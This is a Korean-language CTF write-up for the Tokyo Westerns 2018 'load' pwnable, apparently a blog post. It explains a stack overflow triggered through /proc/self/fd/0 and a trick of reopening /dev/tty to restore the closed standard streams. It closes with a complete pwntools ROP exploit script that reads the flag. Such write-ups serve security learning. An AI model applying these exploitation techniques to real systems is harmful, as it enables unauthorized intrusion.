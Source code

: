 ```yaml
---
title: Tokyo Westerns CTF 2018 - load
date: 2024-07-10 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, file descriptor, /dev/tty]
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/load'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## 0x01. Vulnerability

``` c
int __fastcall load_file_4008FD(void *buf, const char *file_name, __off_t offset, size_t size)
{
  int fd; // [rsp+2Ch] [rbp-4h]

  fd = open(file_name, 0);
  if ( fd == -1 )
    return puts("You can't read this file...");
  lseek(fd, offset, 0);
  if ( read(fd, buf, size) > 0 )
    puts("Load file complete!");
  return close(fd);
}
```

`load_file_4008FD()`를 보면 입력받은 파일명을 `open`해서 내용을 `size`만큼 읽은 후 `main()`의 `buf` 변수에 써준다.

이 때 `file_name`을 `/proc/self/fd/0`으로 조작해준다면, 파일의 내용을 읽는 것이 아닌 `stdin`을 읽어서 `buf`에 쓰는 꼴이 된다.

``` c
  char buf[32]; // [rsp+0h] [rbp-30h] BYREF
  size_t size; // [rsp+20h] [rbp-10h]
  __off_t offset; // [rsp+28h] [rbp-8h]
```

`main()`의 `buf`는 `rbp-0x30`에 위치해있고 원하는 만큼 `size`를 입력할 수 있으니 BOF 취약점이 발생한다.

## 0x02. Exploit

BOF 취약점이 있으니 libc leak을 하려고 했는데 PLT가 있는 `puts()`든 `_printf_chk()`든 이상하게 출력이 안됐다.

그래서 디버깅을 해보니 `puts()`의 리턴 값이 `-1`인 것을 확인했고, 뭔가 에러가 발생했음을 알았다.

언제 이런 에러가 발생하는지 찾아보다가 `stdout`에 문제가 생기면 그럴 수 있다는 정보를 찾아서 확인해보니...

``` c
int close_4008D8()
{
  close(0);
  close(1);
  return close(2);
}
```

`load_file_4008FD()`이 끝난 후 `main()`이 종료되기 전에 `close_4008D8()`라는 함수가 호출되는데, 여기에서 `stdout`을 close해버린다.

그래서 구글링을 열심히 해보니 `/dev/tty`를 `open`하면 다시 `stdout`을 살릴 수 있다는 것을 알았다.

문제는 `/dev/tty`를 어디에 넣어놓고 `open()`에 전달할 것이냐인데, BOF 취약점을 트리거하기 위해 `file_name`에 `/proc/self/fd/0`을 넣는 과정에서 `\x00`을 하나 추가하고 `/dev/tty`를 전달하면 될 것 같았다.

``` python
    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])
```

위 payload를 ROP chain에 3번 넣어서 `/proc/self/fd/`에 순서대로 0, 1, 2가 생성되는 것을 확인했다.

이렇게 leak을 하는데에는 성공했으나 `stdin`을 살렸음에도 다음 playoad를 전송하는 것에 실패했다.

그래서 고민이 됐던게 leak을 해봤자 다음 입력을 줄 수가 없으므로 한번에 입력을 줘서 flag를 `open` -> `read` -> `write`를 다 시켜야하는데 `rdx` 관련 가젯이 없다.

그러면 `read`의 세 번째 인자인 `size` 컨트롤이 불가능하기 때문에 `open("flag", 'r');`을 한 이후의 `rdx` 값이 내용을 읽어오기에 충분히 큰 값이기를 기도해야하는데...

실제로 확인해보니 `open`이 종료되고 난 `rdx` 값이 0이었다.

어떻게 출력을 할지 한참을 고민하다가...

``` c
  load_file_4008FD(buf, byte_601040, offset, size);
```

마침 동일한 로직을 수행하는 함수가 코드 영역에 있었다!

-   `rdi` : pop rdi; ret; 가젯 활용, free space인 byte_601040
-   `rsi` : pop rsi; pop r15; ret; 가젯 활용, BOF 트리거 할 때 넣은 "flag" 위치
-   `rdx` : open 종료 후 0
-   `rcx` : open 종료 후 0x00007ffff7e9e53b (충분히 큰 값)

이런식으로 레지스터를 컨트롤해주면 `flag`를 출력할 수 있었다.

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "load"
LIBRARY = "libc.so.6"

pr = 0x0000000000400a73
ppr = 0x0000000000400a71
bp = {
    'read_of_load_file' : 0x400966,
    'main' : 0x400817,
    'end_of_main' : 0x4008A8,
    'close' : 0x4008D8,
    'read_str' : 0x400986,
    'file_name' : 0x601040,
    'load_file' : 0x4008FD,
}

gs = f'''
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def send_msg(s, msg):
    print(s.recvuntil(b": "))
    s.sendline(msg.encode())

def main():
    if(len(sys.argv) > 1):
        s = process(BINARY)
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    send_msg(s, "/proc/self/fd/0\x00/dev/tty\x00flag\x00")
    send_msg(s, "0")
    send_msg(s, "1024")

    payload = b"A" * 0x30
    payload += b"B" * 8

    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])

    # open 3 times -> open 0, 1, 2
    payload += payload_open * 3

    # load_file_4008FD(byte_601040, "flag", offset, size)
    payload += p64(ppr)
    payload += p64(bp['file_name'] + 0x19)      # pop rsi
    payload += p64(0)                           # pop r15
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(bp['load_file'])

    # puts(byte_601040)
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(elf.plt['puts'])

    log.info(f"payload length : {hex(len(payload))}")
    s.sendline(payload)
    pause()
    print(s.recv().split(b"\n")[2])

if __name__=='__main__':
    main()
```
